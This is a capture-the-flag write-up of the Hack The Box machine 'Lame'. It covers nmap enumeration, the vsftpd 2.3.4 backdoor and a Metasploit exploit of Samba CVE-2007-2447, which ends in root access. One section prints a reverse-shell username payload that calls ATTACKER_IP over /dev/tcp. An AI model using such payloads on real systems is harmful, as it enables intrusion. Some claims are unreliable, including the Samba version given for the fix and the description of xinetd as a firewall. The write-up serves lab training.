## Machine Information

Machine Name: HTB-Lame
Machine IP: 10.10.10.3

## Ports & Service scanning

One of the best way to start the journey of pwning a machine is to scan for open ports and services. For most of the time, you will find an entry point on these ports or services because let's be fair, they are meant to be vulnerable during a ctf or challenge.

I used the following command to scan for open ports:
```nmap --top-ports 1000 -sV -sC -O 10.10.10.3 | tee nmap_lame.txt```

Output:
```
Starting Nmap 7.94SVN ( [https://nmap.org](https://nmap.org) ) at 2025-04-03 15:43 EDT
Nmap scan report for 10.10.10.3
Host is up (0.020s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), DD-WRT v24-sp1 (Linux 2.4.36) (90%), Arris TG862G/CT cable modem (90%), Control4 HC-300 home controller (90%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (90%), Dell Integrated Remote Access Controller (iDRAC6) (90%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (90%), Linux 2.4.21 - 2.4.31 (likely embedded) (90%), Linux 2.4.27 (90%), Linux 2.4.7 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m21s, deviation: 2h49m44s, median: 19s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-03T15:43:52-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
OS and Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .

Nmap done: 1 IP address (1 host up) scanned in 60.56 seconds
```

*Command explained:*
1. --top-ports 1000: I am scanning for top 1000 ports.
2. -sV: It will verbose the output of open ports giving me more information on them.
3. -sC: It enables script scanning, which will run default scripts on the ports to get more information on them (are they vulnerable or have any misconfig?)
4. -O: It will scan for the operating system running on the system

### How service verbose works ###

When nmap performs -sV option, it will initially begin with a standard scan that will detect open ports and services. To get further information, nmap uses the following ways during the service verbose scan:
1. **Banner grabbing:** nmap connects to open ports and grabs service banners for version information.
2. **Probing:** nmap sends specific probes ('GET /' for HTTP) tailored to specific services. These probes are designed to elicit a response that reveals more about the service.
3. **Service fingerprinting:** nmap uses service fingerprinting to match responses from the service to a known database of service versions. The fingerprints are signatures of the responses that are unique to particular versions.
4. **TCP/IP Stack Fingerprinting:** nmap also uses TCP/IP stack fingerprinting to gather information about the service. This involves many parts such as, *Initial response time, How the service handles malformed packets, response pattern, and more...*
That heap is performed by just one simple option, isn't that interesting? DANG!!!!

### How script scanning (-sC) works

When nmap performs -sC option, it will initially begin with a standard scan that will detect open ports and services. To get all the default scripts running on the ports, to gather more information, it will automatically run a set of default NSE scripts against the open ports and services associated with that script.

For instance, if smb service is running then nmap will automatically run `smb-os-discovery` NSE script on that service which helps to identify OS of the system through smb protocol.

### How OS detection works

When nmap performs -O option, it will initially begin with a standard scan that will detect open ports and services. To get the information related to the Operating System, it will perform the following tasks:
1. **Active fingerprinting:** sends crafted packets to the target host and observes how the host responds, such as TCP options, window sizes, and TTL.
2. **Passive fingerprinting:** passively observes packets that the target sends during regular communication, analyzing attributes like the order of flags and options to infer the OS.
3. **TCP/IP Stack fingerprinting:** Primary method used by nmap, that analyzes subtle differences in how different operating systems implement network standards.
4. **Database Comparison:** nmap compares the responses with a set of databases to determine the operating system running on the target system.

### Open Ports and Services

- **Port 21:** A ftp service is running on this port, which is generally used for transferring files and folders across the systems.
- **Port 22:** A OpenSSH service is running on this port, which is generally used for establishing command-line remote connection between two systems.
- **Port 139 and 445:** These two ports are running Samba 3.0.20, which is a suite of programs that allows Linux/Unix systems to act as file and printer servers, enabling them to share resources with Windows system using SMB protocol. OS discovery on smb shows that it is a Unix system.


## Service Enumeration

After going through all open ports and services, it is time to look for loopholes or flaws in those services. There are always flaws, because that's how those machines are built. In most cases, I simply start by googling the service name and its version to find available vulnerabilities or exploits, then my next step is to use a very well-known tool for searching exploits, which is searchsploit. I have demonstrated both the ways in this writeup, and they are one of the best ways if you are starting the journey of exploitation. 

### FTP Enumeration

```
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
```

After having a keen look at the output of my nmap scan, I saw a very interesting thing which is *Anonymous FTP login allowed*. This feature of FTP, allows a user to anonymously login to the ftp server and perform any action. Sometimes, we get user level access through this logins, and it takes no effort.

To perform anonymous login, perform the following thing:
```
ftp 10.10.10.3
Name: anonymous
Password: anonymous
```



I did got access using anonymous feature of the ftp, but it seems we cannot do much with it. As you can see in the provided screenshot that after running the *dir -a* command, I see not a single file or directory. It is a dead-end, let's look for something else. 

#### FTP Vulnerabilities
After receiving no gifts from our pretty anonymous feature of ftp, we must now shift to another approach. Our next step must be to find potential vulnerabilities that are linked with the **vsftpd 2.3.4** service. The service looks quite old, and *"aging is the source of all vulnerabilities"*. I began searching on google (always remember, google is your best friend!), and found some very interesting things. At first glance, it feels like we got our way inside.




**Links:**
1. [NIST CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
2. [Broadcom](https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=33416)
3. [exploitdb - You will find exploit here](https://www.exploit-db.com/exploits/49757)

I get the exact same exploit on metasploit framework also, and to find it I used the following command:
`searchsploit vsftpd 2.3.4`

It returned with a list of exploits available for vsftpd 2.3.4 service, and one of them can be performed through Metasploit framework, which makes the work of exploitation easy for us. Soon, I will also post a blog on how to perform the same exploit manually, follow my socials to stay tuned!



After finding an exploit, I immediately ran to exploit it without wasting any time thinking I will get a root access. Unfortunately, it didn't ended well, the clouds of disappointment started forming and now I was just really feeling TOO LAME.



Ahh!!! We managed to set all the options correct and still got the infamous line *Exploit completed, but no session was created.* Why? vsftpd 2.3.4 is vulnerable to this exploit, it should give us a reverse shell. Now, I started finding vulnerabilities in other services, because this is a dead-end. It is better to find another way in, rather than wasting your time in thinking why the exploit failed!

#### What was this vulnerability about?

The concept of the exploit on **vsftpd 2.3.4** is to trigger the malicious *vsf_sysutil_extra();* function by sending a sequence of specific bytes on port 21, which, on successful execution, results in opening the backdoor on port 6200 of the system. Those special magic sequence that opens a backdoor are "OpenSezMe", No just kidding. Those are two magical hexadecimal values, one is *0x3a* and another is *0x29*. These two hex values together form a very cute malicious string as *:)* this. Yes a smily, so how it works?

When you login to the ftp server using the command `ftp [IP]` and then you are prompted for a username and password. In the username field, simply add any gibberish and end it with :) a smily (because username field is vulnerable to this). Now add any random password and when you login, a reverse shell on port 6200 will get opened. When the ftp program detects the character ":)" in the username field, it runs the vsf_sysutil_extra() function which eventually opens a reverse connection on 6200. Now, you just need to establish connection to that port by using `nc [IP] 6200`. Unfortunately, this is not possible in the provided machine for some unknown reasons.

### Samba Enumeration

After facing 2 dead-ends in ftp enumeration, I started looking for vulnerabilities in OpenSSH and found nothing interesting, so I immediately shifted on Samba. If you are little aware, then smb and samba are kind of vulnerable services and looking at the Samba's version (Samba 3.0.20), I can say there are plenty of exploits available for it. I started with the obvious google search methodology.



**Links:**
1. [NIST CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)
2. [exploitdb - Find the exploit here](https://www.exploit-db.com/exploits/16320)

Next step I performed is finding if the exploit is available in the Metasploit framework or searchsploit database. 

`searchsploit Samba 3.0.20`



And this gives an output that shows the exact same exploit available in metasploit framework, so this might be our ticket in. Let's explore and exploit it! I used the following commands to perform the exploit:

```
msfconsole
msf6> search Samba 3.0.20
msf6> use 0
msf6> show options
msf6> set RHOSTS 10.10.10.3
msf6> set LHOST 10.10.14.11
msf6> exploit
```

In the options, I have set *RHOSTS* to the target IP and *LHOST* to my vpn IP. It is very important to set the LHOST properly, or else you will not get the connection or reverse shell.




As you can review from the above images that we finally have achieved root access. Yay! Finally after so many dead-ends we are here now. The final demand of the machine is to get a user flag from the user makis and a root flag. So I found them using the following commands:

**makis's flag:**
```
cd /home/makis/
ls
cat user.txt
```

**root flag:**
```
cd /root
ls
cat root.txt
```






#### How this vulnerability works?

This exploits a command execution vulnerability in *Samba version 3.0.20* through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication.

`smbclient //192.168.1.100/shared_folder -U "/=nohup bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"`

While performing login through smbclient, we can provide the following string *"/=nohup bash -i >& /dev/tcp/Attacker_IP/4444 0>&1* to spawn a reverse shell on our IP at 4444 port number. The value */=nohup* makes all this possible. 


## BONUS: Why vsftpd exploit was not working

Once I got the root access and when I was finished with the flags, I wanted to see that why vsftpd's exploit was not working. It is out of the scope of machine-pwning, but it is always a good practice to see where you went wrong. I started scanning the ports that were listening within the system, and now I am inside the target so I might see more listening ports than the output we got from nmap. It is because some of the ports might be filtered by firewall and standard nmap scan will not display them.

I performed the following command on the target system to look for listening ports:
`netstat -tnlp`

**Command Explaination:**
1. **netstat:** a network utility used to display network connections, routing tables, interface statistics, and multicast memberships.
2. **-t:** displaying TCP connections
3. **-n:** Displays numerical addresses and port numbers
4. **-l:** Filters the output to show listening ports
5. **-p:** This option shows the process ID (PID) and the name of the program that is using each socket



On the above image, I have marked a specific port with red line. It is port 21, which we saw during the nmap scan as **vsftpd**, but here we can see that the PID and name shown is **5440 and xinetd**. Weird, right? We were able to access ftp when we tried anonymous login, but there is no vsftpd here, why? I had a slight doubt, that this service is a firewall and after some googling, I was confirmed that **xinetd** is a firewall, that uses things like TCP wrapper to avoid malicious connections on a port or service. When an organization is running a vulnerable port/service, but they cannot update it due to the dependencies of other things on it, they generally cover the port with a firewall service that will avoid malicious traffic coming at the port. Fortunately, for us we are already inside the target and hence we can use vsftpd's exploit from within. 

## Vulnerabilities fix

We found 3 known vulnerabilities while pwning the system, I will here also refer on how to avoid these vulnerabilities and make your system stronger. 

### FTP anonymous login
Anonymous login gave us nothing here, but many a times it can be dangerous. Best practice is to disable anonymous login from the configuration file of vsftpd or any other ftp service. I have attached an image below with a configuration file that do not allow anonymous login.




As shown in the image, the configuration file has `anonymous_enable=NO` which will disable anonymous login over ftp service.

### FTP CVE-2011-2523

There was another well-known vulnerability in vsftpd 2.3.4 that we tried to exploit, but the silly firewall came in between. The recommended mitigation for this is to update the version of vsftpd service (above 2.3.4), and for some critical reasons if you cannot update it, then wrap the service with a firewall. 

### Samba CVE-2007-2447

This was the exploit that worked for us, and we were able to access the system without any issue. This is a version based vulnerability, unlike the FTP anonymous login where we had to change configuration file content to secure it, here it is recommended to upgrade Samba to version 2.0.24-r2 or higher to mitigate this vulnerability. 




## Conclusion

